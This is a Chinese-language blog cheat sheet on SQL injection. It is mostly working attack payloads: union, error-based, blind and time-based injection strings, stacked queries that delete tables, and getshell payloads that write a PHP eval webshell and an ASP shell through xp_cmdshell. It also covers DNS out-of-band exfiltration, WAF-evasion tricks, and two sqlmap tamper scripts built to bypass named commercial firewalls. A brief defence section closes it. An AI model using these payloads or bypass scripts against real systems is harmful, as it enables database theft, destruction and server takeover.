科普基础 | 这可能是最全的SQL注入总结，不来看看吗
0x01 SQL注入原理
当客户端提交的数据未作处理或转义直接带入数据库，就造成了sql注入。
攻击者通过构造不同的sql语句来实现对数据库的任意操作。
0x02 SQL注入的分类
按变量类型分：数字型和字符型
按HTTP提交方式分：POST注入、GET注入和Cookie注入
按注入方式分：布尔注入、联合注入、多语句注入、报错注入、延时注入、内联注入
按数据库类型分：
sql：oracle、mysql、mssql、access、sqlite、postgersql
nosql：mongodb、redis0x03 MySQL与MSSQL及ACCESS之间的区别
1.MySQL5.0以下没有information_schema这个默认数据库
2.ACCESS没有库名，只有表和字段，并且注入时，后面必须跟表名，ACCESS没有注释
举例：select 1,2,3 from `table_name` union select 1,2,3 from `table_name`3.MySQL使用limit排序，ACCESS使用TOP排序（TOP在MSSQL也可使用）
0x04 判断三种数据库的语句
MySQL：and length(user())>10
ACCESS：and (select count(*)from MSysAccessObjects)>0
MSSQL：and (select count(*)from sysobjects)>00x05 基本手工注入流程
1.判断注入点
数字型：id=2-1
字符型：' 、')、 '))、 "、 ")、 "))
注释符：-- （这是--空格）、--+、/**/、#
2.获取字段数
order by 二分法联合查询字段数，观察页面变化从而确定字段数
order by 1
order by 50group by 译为分组，注入时也可使用，不过我没用过
3.查看显示位尝试使用联合注入
利用and 1=2或and 0及id=-12查看显示数据的位置
替换显示位改成SQL语句，查看信息（当前数据库，版本及用户名）
and 1=2 union select version(),2,3再查询所有数据库
and 1=2 union select (select group_concat(schema_name)from information schema.schemata),2,3查询所有表名
union select (select group_concat(table_name)from information_schema.tables),2,3查询所有字段名
union select (select group_concat(column_name)from information_schema.columns),2,3查询字段内容
如：查询test库下users表的id及uname字段，用'~'区分id和uname以防字符连接到一起
union select(select group_concat(id,'~',uname)from test.users),2,30x06 报错注入
通用报错语句：（测试版本MySQL8.0.12，MySQL5.0，mariadb5.5版本下）
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));相关连接: https://www.cnblogs.com/wocalieshenmegui/p/5917967.html
POST中的报错注入

0x07 布尔盲注
我在盲注中常用的函数：
1.char() 解ASCII码
2.mid()截取字符串
举例：mid('hello',1,3)，从第1位开始截取3位，输出位hel3.substr()与mid()相同，都为截取字符串
4.count()计算查询结果的行数
5.concat()查询结果合并但保持原有行数
6.group_concat()查询结果合并但都放在一行中
7.ascii() 查询ascii码
猜数据库长度(利用二分法)
id=1 and (length(database()))>1
id=1 and (length(database()))>50猜第一个字符，第二个字符，以此类推
and ascii(mid(database(),1,1))>1
and ascii(mid(database(),2,1))>1查询当前数据库中所有表名
and (select count(table_name)from information_schema.tables where tables_schema=database())>1
and (select count(table_name)from information_schema.tables where tables_schema=database())>10查询第一个表的长度
and (select length(table_name)from information_schema.tables where tables_schema=database()limit 0,1)>10查询表的第一个字符
and ascii(mid((select table_name from information_schema.tables where table_schema=database()limit 0,1),1,1))>1查询atelier表里有几个字段
and(select count(column_name)from information_schema.columns where table_name = 'atelier' and table_schema = database())>2查询第一个字段长度
and length((select column_name from information_schema.columns where table_name='atelier' and table_schema= database()limit 0,1))>1查询字段第一个字符
and ascii(mid((select column_name from information_schema.columns where table_schema = 'db83231_asfaa' and TABLE_NAME ='atelier' limit 0,1),1,1))>105查询字段所有行数
and (select count(*) from db83231_asfaa.atelier)>4查询字段名的行数（查询emails表，uname字段）
and (select count(uname)from security.emails)>7 查询uname的行数查询字段内容
length((select username from security.users limit 0,1))>10
ascii(mid((select username from security.user limit 0,1),1,1))>100将查询到的ASCII码放到mysql中查询
举例：select char(39);

0x08 延时盲注
利用sleep(3)和if(1=2,1,0)及case进行延时注入，示例：
select * from user where id='1' or sleep(3) %23这个没什么好说的
select * from user where id= 1 and if(length(version())>10,sleep(3),0);如果长度大于10，则睡3秒，其他则0秒
select * from user where id= 1 and case length(version())>10 when 1 then sleep(3) else 0 end;case定义条件，when 后面的1表示ture也代表真，当条件为真时，睡3秒，其他则0秒。
0x09 多语句注入
多语句意思就是可以执行多个语句，利用分号进行隔开
示例：id=1";WAITFOR DELAY '0:0:3';delete from users; --+
id=1';select if(length(user(),1,1)>1,sleep(3),1) %23
';select if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)>1,sleep(3),1) %230x10 内联注入
举例：id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3利用别名：
union select 1,2,3,4,a.id,b.id,* from(sys_admin as a inner join sys_admin as b on a.id=b.id)0x11 getshell
id=-1' union select 1,2,(select '<?php @eval($_POST[1]);?>' into outfile '/var/www/html/404.php') --+也可使用dumpfile进行写入
outfile和dumpfile的区别：
outfile适合导库，在行末尾会写入新行并转义，因此不能写入二进制可执行文件。dumpfile只能执行一行数据。
数据库写入：
exec master..xp_cmdshell 'echo "<%eXECutegLobaL rEquEst(0)%>" > "c:\www\upload\Files\2019-11\404.asp"'
0x12 宽字节注入
当编码位gbk时，%df%27或%81%27数据为空
就是说客户端发送的数据编码为gbk时，那么可能会吃掉转义字符\反斜杠，闭合之后页面恢复正常，存在宽字节注入

测试出来就可以使用sqlmap跑了，23333
加*构造注入点（比-p更稳定），让sqlmap对构造注入点进行注入攻击（*优先级更高）
宽字节防御：

第10行代码必须和第24行必须同时使用，要么就更换编码格式
0x13 二次编码注入
代码中有urldecode() 函数
%2527 先解码成%27再解码成'单引号
sqlmap -u http://192.168.100.141/index.php/author=123 --prefix "%2527" --suffix "%23"-prefix为设置前缀 -suffix为设置后缀
设置后缀，防止sqlmap使用内联注
使用自带的脚本进行注入chardoubleencode.py

0x14 图片上传sql注入
猜结构，为时间戳加文件名


替换and sleep(3) 为*进行salmap
0x15 二次注入
abc' 数据经过addslashes过滤，单引号前面添加反斜杠abc\'，但传到数据库的数据还是abc'
假如在如下场景中，我们浏览一些网站的时候，可以现在注册见页面注册username=test'，接下来访问xxx.php?username=test'，页面返回id=22；
接下来再次发起请求xxx.php?id=22，这时候就有可能发生sql注入，比如页面会返回MySQL的错误。
访问xxx.php?id=test' union select 1,user(),3%23，获得新的id=40，得到user()的结果，利用这种注入方式会得到数据库中的值。
0x16 XFF头注入
update user set loat_loginip = '8.8.8.8' where id =1 and sleep(5) #' where username = 'zs';id根据网站用户量取一个中间值，测试是否有注入，利用插件设置XFF头，如果网站不报错，可尝试此注入
X-Forward-For：127.0.0.1' select 1,2,user()

0x17 User-Agent请求头注入

0x18 DNS外带日志示例
外带平台 ：xip.io ceye.io
MSSQL查询当前数据库


MySQL查询数据库版本


0x19 常用过WAF技巧
1.特征字符大小写（基本没用）
UnIoN SeLcT 1,2,32.内联注释
id=-1/*!UNION*/%20//*!SELECT*/%201,2,33.特殊字符代替空格
%09 tab键(水平)、%0a 换行、%0c 新的一页
%0d return功能、%0b tab键(垂直)、%a0空格4.等价函数和逻辑符号
hex()、bin()==>ascii()
sleep()==>benchmark()
concat_ws()==>group_concat()
mid()、substr()==>substring()
@@version==>version()
@@datadir==>datadir()
逻辑符号：如and和or不能使用时，尝试&&和||双管道符。5.特殊符号
反引号，select `version()`，绕过空格和正则
加号和点，"+"和"."代表连接，也可绕过空格和关键字过滤
@符号，用于定义变量，一个@代表用户变量，@@代表系统变量6.关键字拆分
'se'+'lec'+'t'
%S%E%L%C%T 1,2,3
?id=1;EXEC('ma'+'ster..x'+'p_cm'+'dsh'+'ell"net user"')
!和()：'or--+2=--!!!'2
id=1+(UnI)(oN)+(SeL)(EcT)7.加括号绕过
小括号
union (select+1,2,3+from+users)%23
union(select(1),(2),(3)from(users))
id=(1)or(0x50=0x50)
id=(-1)union(((((((select(1),hex(2),hex(3)from(users))))))))花括号
select{x user}from{x mysql.user}
id=-1 union select 1,{x 2},38.过滤and和or下的盲注
id=strcmp(left((select%20username%20from%20users%20limit%200,1),1),0x42)%23
id=strcmp(left((select+username+from+limit+0,1),1,0x42)%239.白名单绕过
拦截信息：
GET /pen/news.php?id=1 union select user,password from mysql.user绕过：
GET /pen/news. php/admin?id=1 union select user,password from mysql. user
GET /pen/admin/..\news. php?id=1 union select user,password from mysql. user10.HTTP参数控制
（1）HPP（HTTP Parmeter Polution）（重复参数污染）
举例：
index.php?id=1 union select username,password from users
index.php?id=1/**/union/*&id=*/select/*&id=*/username.password/*&id=*/from/*&id=*/usersHPP又称作重复参数污染，最简单的是?uid=1&uid=2&uid=3，对于这种情况，不用的web服务器处理方式不同。
具体WAF如何处理，要看设置的规则，不过示例中最后一个有较大可能绕过
（2）HPF（HTTP Parmeter Fragment）（HTTP分割注入）
HTTP分割注入，同CRLF有相似之处（使用控制字符%0a、%0d等执行换行）
举例：
/?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--
select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users—0x20 SQL注入防御
1.对用户输入的内容进行转义
2.限制关键字的输入，如单引号、双引号、右括号等，限制输入的长度
3.使用SQL语句预处理，对SQL语句进行预编译，然后进行参数绑定，最后传入参数
4.添加WAF，防火墙等

拓展阅读：
sqlmap bypass D盾 tamper
#!/usr/bin/env python
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def dependencies():
pass
def tamper(payload, **kwargs):
"""
BYPASS Ddun
"""
retVal = payload
if payload:
retVal = ""
quote, doublequote, firstspace = False, False, False
for i in xrange(len(payload)):
if not firstspace:
if payload[i].isspace():
firstspace = True
retVal += "/*DJSAWW%2B%26Lt%3B%2B*/"
continue
elif payload[i] == '\'':
quote = not quote
elif payload[i] == '"':
doublequote = not doublequote
elif payload[i] == " " and not doublequote and not quote:
retVal += "/*DJSAWW%2B%26Lt%3B%2B*/"
continue
retVal += payload[i]
return retValsqlmap bypass 云锁 tamper
#!/usr/bin/env python
"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
import re
from lib.core.data import kb
from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
from lib.core.enums import DBMS
__priority__ = PRIORITY.LOW
def dependencies():
pass
def tamper(payload, **kwargs):
payload=payload.replace('ORDER','/*!00000order*/')
payload=payload.replace('ALL SELECT','/*!00000all*/ /*!00000select')
payload=payload.replace('CONCAT(',"CONCAT/**/(")
payload=payload.replace("--"," */--")
payload=payload.replace("AND","%26%26")
return payload安全狗最新版Bypass | 附sqlmap tamper脚本
sqlmap_修改tamper脚本_绕过WAF并制作通杀0day